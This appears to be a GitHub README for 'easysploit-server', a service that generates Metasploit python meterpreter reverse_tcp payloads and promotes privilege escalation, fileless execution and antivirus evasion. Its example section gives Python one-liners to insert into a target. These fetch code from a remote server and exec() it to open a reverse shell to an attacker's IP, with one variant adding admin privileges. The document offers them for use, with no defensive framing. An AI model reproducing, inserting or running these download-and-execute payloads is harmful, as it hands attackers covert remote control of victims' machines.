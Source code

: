 # easysploit-server
## Overview
Easysploit Server is a tool designed to generate, customize, and manage Metasploit reverse_tcp payloads. It simplifies exploitation with built-in admin privilege escalation, and AV evasion capabilities, supporting fileless execution for fast, undetectable operations.
Easysploit server is now working on https://easysploit.rocknroll17.com.

## Features
- Custom Reverse_TCP Payloads
- Admin Privilege Escalation
- Fileless Execution (Memory-based)
- Anti-Virus Evasion

## Installation
```
git clone https://github.com/Easysploit/easysploit-server.git  
cd easysploit-server  
pip install -r requirements.txt
```

## Usage
### Available Endpoints
1. **Standard python Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp`
2. **Admin Privilege Reverse TCP Payload**
Endpoint: `/python/meterpreter/reverse_tcp/admin`

### Request Body
Both endpoints require the same JSON payload:
```
{
  "LHOST": "Attacker's IP",
  "LPORT": Attacker's listening port
}
```

## Example Code
Insert this code where you gonna exploit.
1. **Standard python Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```
2. **Admin Privilege Reverse TCP Payload**
```
import urllib.request, json
exec(urllib.request.urlopen(urllib.request.Request("https://easysploit.rocknroll17.com/python/meterpreter/reverse_tcp/admin", data=json.dumps({"LHOST": "Attacker's IP", "LPORT": Attacker's listening port}).encode(), headers={'Content-Type': 'application/json'})).read().decode())
```

